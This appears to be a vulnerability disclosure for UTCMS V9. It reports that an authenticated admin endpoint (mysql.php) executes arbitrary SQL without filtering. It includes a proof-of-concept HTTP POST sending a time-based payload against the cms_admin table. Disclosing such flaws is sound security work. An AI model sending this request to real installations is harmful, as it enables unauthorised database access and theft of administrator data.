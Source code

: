 # Vendor

Yu Bao

# Product

UTCMS

# version

 V9

# Download 

https://github.com/usualtool/ut-cms

# Vulnerability

Execute any SQL statement

# Description

In the sql.php page, users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

# Analysis

In the app/modules/ut-data/admin/mysql.php , users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

<img width="1053" height="295" alt="image" src="https://github.com/user-attachments/assets/fcef40b4-23bb-452f-b2c3-25110015ae3a" />

<img width="1418" height="919" alt="image" src="https://github.com/user-attachments/assets/26c04500-0c27-41ae-adac-c3ab509d1ada" />



# POC
```
POST /ut-cms-9/app/dev/?m=ut-data&p=mysql&do=mysql-sql HTTP/1.1
Host: 192.168.1.69
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=l7s63btrio4o1cepgib2l9v89m
Content-Length: 45

sql=SELECT+*+FROM+cms_admin+WHERE+SLEEP(5)%3b
```
